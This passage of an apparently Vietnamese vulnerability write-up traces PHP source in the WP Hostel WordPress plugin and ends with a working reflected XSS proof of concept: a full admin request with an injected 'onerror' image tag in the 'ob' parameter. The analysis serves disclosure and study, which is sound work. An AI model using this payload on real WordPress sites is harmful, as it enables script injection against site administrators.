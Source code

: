 * Nếu không có tham số => mặc định `0`.
* Nếu có => ép kiểu số nguyên bằng `intval()`.

```php
$offset = empty($_GET['offset']) ? 0 : intval($_GET['offset']);
```

**Phân tích biến `$page_limit`**

`$page_limit` được đặt cố định là `20`, dùng kết hợp với `$offset` để phân trang:

```php
// define limit (as it's paginated)				
$page_limit = 20;

// LIMIT offset, 20
$limit_sql = empty($_GET['export']) ? $wpdb->prepare("LIMIT %d, %d", $offset, $page_limit) : ''; 
```

Khi đó SQL trả về tối đa **20 bản ghi**, bắt đầu từ vị trí `$offset`.

**Áp dụng vào mệnh đề if**:

Trong view, đoạn code XSS payload chỉ hiển thị khi:

* `if($offset > 0)` => tức là phải có offset từ **1 trở lên**.
* Muốn `offset > 0` có ý nghĩa, cơ sở dữ liệu phải có ít nhất **2 booking**. Nếu chỉ có 1 booking thì sau khi bỏ qua 1 dòng (offset=1), không còn dữ liệu nào để hiển thị, nên payload cũng không render ra.

👉 Do đó, để khai thác thành công, cần có tối thiểu **2 booking** trong database.

Cuối cùng các kết quả được chứa trong các biến sẽ được hiển thị ra views thông qua hàm `include()`

```php
if(@file_exists(get_stylesheet_directory().'/wphostel/bookings.html.php')) include get_stylesheet_directory().'/wphostel/bookings.html.php';
else include(WPHOSTEL_PATH."/views/bookings.html.php");	
```

`WPHOSTEL_PATH` có thể là hằng global được sử dụng sau khi file **PHP** chứa nó được load, Để biết được chính xác, ta tìm kiếm với từ khóa `WPHOSTEL_PATH`.

{{< figure src="search_path.png" caption="Đường dẫn tuyệt đối tới thư mục plugin" >}}

## Exploit

**Request với XSS payload**

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=upcoming&offset=1&ob="><img+src%3D1+onerror%3Dalert%28document.domain%29> HTTP/1.1
```

**Payload thực tế**:

```html
"><img src=x onerror=alert(document.domain)>
```

* Đóng thẻ `<a>` bằng ký tự `">`.
* Chèn thêm thẻ `<img>` có thuộc tính `onerror` để **kích hoạt JavaScript**.
* Dùng `alert(document.domain)` thay cho `alert(1)` như một thói quen, nhằm chứng minh rõ ràng khả năng đọc thông tin từ DOM. Điều này cũng giúp tránh trường hợp [Sandbox Domain](https://bughunters.google.com/learn/invalid-reports/web-platform/xss/6619189462433792/xss-in-sandbox-domains) khiến cho tác động của `payload` bị xem nhẹ hoặc không có.
